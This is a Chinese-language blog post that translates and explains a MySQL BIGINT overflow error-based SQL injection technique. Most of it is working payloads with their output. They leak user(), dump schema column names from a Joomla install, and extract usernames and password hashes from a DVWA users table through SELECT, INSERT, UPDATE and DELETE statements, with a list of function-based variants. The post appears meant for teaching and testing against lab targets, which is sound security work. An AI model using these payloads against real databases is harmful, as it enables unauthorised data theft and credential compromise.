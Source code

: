 ```yaml
---
layout: post
title: BIGINT Overflow Error Based SQL Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

>根据Mysql BIGINT数据类型，结合Mysql两个小特性，巧妙的构造出新型报错注入。Paper翻译自<a target="_blank" href="https://www.exploit-db.com/docs/37733.pdf">BIGINT Overflow Error Based SQL Injection</a>，这里就分析下此报错注入的方式与原理。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先看看Mysql(>=5.5.5)如何存储整数的，之前的版本当整数溢出的时候不会报错。<a target="_blank" href="http://dev.mysql.com/doc/refman/5.5/en/integer-types.html">Integer Types (Exact Value)</a>**

<img src="http://7xiw31.com1.z0.glb.clouddn.com/i76ryjtgdh.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**BIGINT数据类型的长度为8字节(64Bytes)，分别用二进制、十进制、十六进制的`signed/unsigned`表示最大值:**

	#signed - Binary、Decimal、Hex
	0b0111111111111111111111111111111111111111111111111111111111111111
	9223372036854775807
	0x7fffffffffffffff

	#unsigned - Binary、Decimal、Hex
	0b1111111111111111111111111111111111111111111111111111111111111111
	18446744073709551615
	0xFFFFFFFFFFFFFFFF

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**分别将`signed/unsigned`的BIGINT最大值进行数学计算，来证明报错的原因：**

	#signed
	mysql> select cast(x'7fffffffffffffff' as signed)/9223372036854775807;
	+---------------------------------------------------------+
	| cast(x'7fffffffffffffff' as signed)/9223372036854775807 |
	+---------------------------------------------------------+
	|                                                  1.0000 |
	+---------------------------------------------------------+
	1 row in set (0.00 sec)
	mysql> select cast(x'7fffffffffffffff' as signed)+1;
	ERROR 1690 (22003): BIGINT value is out of range in '(cast(0x7fffffffffffffff as signed) + 1)'
	
	#unsigned
	mysql> select 18446744073709551615-1;
	+------------------------+
	| 18446744073709551615-1 |
	+------------------------+
	|   18446744073709551614 |
	+------------------------+
	1 row in set (0.00 sec)
	mysql> select 18446744073709551615+1;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(18446744073709551615 + 1)'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**由此看出当BIGINT最大值进行增值运算的时候，`signed/unsigned`都会爆出`BIGINT value is out of range`的错误，也就是溢出了。还有就是Mysql逐位取反的特性，打个比方：**

	mysql> select ~0;
	+----------------------+
	| ~0                   |
	+----------------------+
	| 18446744073709551615 |
	+----------------------+
	1 row in set (0.00 sec)
	mysql> select ~18446744073709551615;
	+-----------------------+
	| ~18446744073709551615 |
	+-----------------------+
	|                     0 |
	+-----------------------+
	1 row in set (0.00 sec)
	
	mysql> select 1-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 - ~(0))'
	
	mysql> select 1+~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**也就是说从0逐位取反，得到的数字也正是BIGINT中unsigned的数值范围，这个数值进行数学运算时同样会出现溢出错误。那么怎样能在实际应用当中利用上这个报错呢？接下来就说到了Mysql子查询的一个特性，当查询结果成功返回时，返回值为0，表达式进行逻辑非运算后，返回值则为1，并且这个返回值也可以进行数学运算：**

	mysql> select !(select*from(select user())x)+1;
	+----------------------------------+
	| !(select*from(select user())x)+1 |
	+----------------------------------+
	|                                2 |
	+----------------------------------+
	1 row in set (0.00 sec)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**根据子查询的特点，再结合BIGINT逐位取反的溢出报错。我们就可以进行报错注入了：**

	mysql> select !(select*from(select user())x)-~18446744073709551615;
	+------------------------------------------------------+
	| !(select*from(select user())x)-~18446744073709551615 |
	+------------------------------------------------------+
	|                                                    1 |
	+------------------------------------------------------+
	1 row in set (0.00 sec)
	
	mysql> select !(select*from(select user())x)-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'
	
	mysql> select (select(!x-~0)from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
    
    mysql> select (select!x-~0.from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然可以通过BIGINT溢出配合子查询进行报错注入，那么就可以在实战当中获取到更多的数据：**

	mysql> select !(select*from(select concat_ws(':',id, username, password) from k8fzi_users limit 0,1)x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '533:admin:$2y$10$wE6S6EEj5Xc3/Jo8rQDSAu0mxQr2FmZJmT4SlsXL8PdM8Ymb/82Ly' from dual))) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**因为是BIGINT数值范围溢出特点，那么Mysql中很多数学函数也可以应用到，Mysql的语法灵活，这些数学函数是可以嵌套表达式的，然后将返回值进行运算。**

    select !hex((select*from(select user())x))-~0;
    select !ceil((select*from(select user())x))-~0;
    select !atan((select*from(select user())x))-~0;
    select !rand((select*from(select user())a))-~0;
    select !sqrt((select*from(select user())a))-~0;
    select !round((select*from(select user())a))-~0;
    select !sign((select*from(select user())a))-~0;
    select !floor((select*from(select user())a))-~0;
    select !tan((select*from(select user())a))-~0;
    select !ceiling((select*from(select user())a))-~0;
    select !exp((select*from(select user())x))-~0;
    select !(select*from(select user())a)-~1^200;

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然是报错类型的注入，那么一次性存储也是可以的：**

    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x2d2d,table_name,0x2d2d,column_name)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    joomla_3.4.4--k8fzi_assets--id
    joomla_3.4.4--k8fzi_assets--parent_id
    joomla_3.4.4--k8fzi_assets--lft
    joomla_3.4.4--k8fzi_assets--rgt
    joomla_3.4.4--k8fzi_assets--level
    joomla_3.4.4--k8fzi_assets--name
    joomla_3.4.4--k8fzi_assets--title
    joomla_3.4.4--k8fzi_assets--rules
    joomla_3.4.4--k8fzi_associations--id
    joomla_3.4.4--k8fzi_associations--context
    joomla_3.4.4--k8fzi_associations--key
    joomla_3.4.4--k8fzi_banner_clients--id
    joomla_3.4.4--k8fzi_banner

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**这里纠正一个Paper中错误的观点，文中提到一次性存储表列数据只能取出27行，其实这是报错信息的最大长度所决定的，如果只想取到重要信息的话，Payload中不加库名表名还有分隔符简短点就可以了，一图胜千言。**

<img src="http://7xiw31.com1.z0.glb.clouddn.com/5u6ehrtsdf.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**当知道库名表名列名后，就可以构造语句获取数据了：**

    #select:
    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #insert:
    mysql> insert into users (user_id,user,password) values (2,'' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0 or '', 'Eyre');
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #update:
    mysql> update users set password='root' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #delete:
    mysql> delete from users where user_id='1' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'